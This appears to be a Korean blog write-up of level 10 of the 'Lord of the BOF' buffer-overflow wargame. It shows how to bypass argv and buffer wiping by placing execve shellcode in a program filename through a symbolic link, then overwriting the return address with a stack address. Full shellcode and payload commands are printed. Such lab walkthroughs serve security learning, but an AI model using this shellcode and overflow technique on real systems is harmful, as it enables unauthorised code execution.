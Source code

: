 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 10"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level10/1.jpg" | relative_url }}' alt='relative'>  

## 1) vampire/music world 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level10/2.png" | relative_url }}' alt='relative'>  

인자를 많이 입력해도 argv hunter에 의해 argv 내용이 0으로 덮어 쓰여집니다.  
egg hunter, argv hunter, buffer hunter로 앞서 푼 문제처럼 쉘코드를 입력해도 다 소용 없습니다.  

그런데, (스택 구조의 맨 마지막을 확인해보지 않았으면 몰랐겠지만) 스택의 제일 하단에는 파일명이 저장되어 있습니다.  

## 2) 스택 하단에 파일명  

<img data-action="zoom" src='{{ "assets/lob/level10/3.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level10/4.png" | relative_url }}' alt='relative'>  

프로그램 실행시 argv[0]에 인자로 입력되는 프로그램 명이 스택에 제일 하단에도 저장되어 있습니다.  

1. 심볼릭 링크를 이용해 프로그램 파일명에 쉘코드를 입력하고,  
2. 쉘코드가 저장되어 있는 스택의 제일 하단 주소를 RET에 입력하면 됩니다.  

## 3) 쉘코드를 포함한 심볼릭 링크 파일 만들기  

level8에서 사용한 명령어를 그대로 사용하겠습니다.  

``` bash
ln -s skeleton `python -c 'print "\x90"*50+"\x31\xc0\x50\xb8\x97\x97\x39\x34\x05\x98\x97\x39\x34\x50\xb8\x17\xb1\x34\x37\x05\x18\xb1\x34\x37\x50\x31\xc0\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*10'`
```

<img data-action="zoom" src='{{ "assets/lob/level10/5.png" | relative_url }}' alt='relative'>  

## 4) 쉘코드가 저장되어 있는 스택의 제일 하단 주소 임의로 지정하기  

<img data-action="zoom" src='{{ "assets/lob/level10/6.png" | relative_url }}' alt='relative'>  

쉘코드가 저장되어 있을 위치를 임의로 지정하여 RET에 0xbfffffc8를 입력하겠습니다.  

## 5) 공격 페이로드 입력하여 BOF 일으키기  

``` bash
./`python -c 'print "\x90"*50+"\x31\xc0\x50\xb8\x97\x97\x39\x34\x05\x98\x97\x39\x34\x50\xb8\x17\xb1\x34\x37\x05\x18\xb1\x34\x37\x50\x31\xc0\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*10'` `python -c 'print "A"*44+"\xc8\xff\xff\xbf"'`
```

<img data-action="zoom" src='{{ "assets/lob/level10/7.png" | relative_url }}' alt='relative'>  

위의 페이로드를 제대로 입력했는데도 stack is still your friend. 라는 문자열이 반환된다면 bash2 명령어를 입력하시고 다시 시도해보세요.

